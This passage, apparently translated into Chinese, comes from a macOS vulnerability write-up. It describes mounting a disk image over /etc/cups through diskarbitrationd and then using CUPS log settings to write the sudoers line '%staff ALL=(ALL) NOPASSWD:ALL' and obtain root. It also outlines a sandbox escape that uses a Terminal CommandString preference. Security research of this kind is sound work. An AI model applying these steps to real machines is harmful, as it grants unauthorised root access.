   
删除之前创建的mnt目录并创建一个名为/etc/cups指向 的符号链接。mnt  
  
```
(lldb) breakpoint disable
All breakpoints disabled. (2 breakpoints)
(lldb) c
Process 113 resuming
```  
  
  
禁用lldb 调试器中设置的断点，以便disk Arbitrationd继续运行。  
  
```
tree@forest ~ % mount
/dev/disk4s1s1 on / (apfs, sealed, local, read-only, journaled)
devfs on /dev (devfs, local, nobrowse)
...
/dev/disk5s1 on /private/etc/cups (msdos, local, nodev, nosuid, noowners, noatime, fskit)
```  
  
  
结果/etc/cups可以看到磁盘镜像已挂载到该目录中。  
  
您现在已经准备好执行 LPE 的环境了！  
  
**A.L.P.E.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taepDGVgQiakHB3hsp8PKLQTKicjGZcfbNunlZ6y5LOFTGwAx53AiaLiaONwtjZ9yicuY6se1qnjPa83RyA/640?wx_fmt=png&from=appmsg "")  
  
LPE按照该流程进行，各过程如下。  
  
1.  
/etc/cups挂载到目录后，创建自定义cups-files.conf文件  
- ErrorLog ：将日志文件位置  
/etc/sudoers.d/lpe设置为 .  
  
- LogFilePerm  
777：设置日志文件的权限。  
  
2.  
cupsctl使用命令创建错误日志文件  
- 在生成的日志文件中添加以下内容  
  
```
%staff ALL=(ALL) NOPASSWD:ALL
```  
  
  
3.LogFilePerm700更改为并重新运行  
cupsctl命令  
  
4.  
sudo 通过命令获取root权限  
  
**B.沙箱逃逸**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taepDGVgQiakHB3hsp8PKLQTKF5RIzhR4m2bCQCALicRUYkVJRFwrYSvup5BibhfQibFW74t4jHRkCvDqQ/640?wx_fmt=png&from=appmsg "")  
  
1.  
preference file将终端插入磁盘映像  
- CommandString 使用该选项可将LPE 脚本设置为在运行终端时运行。  
  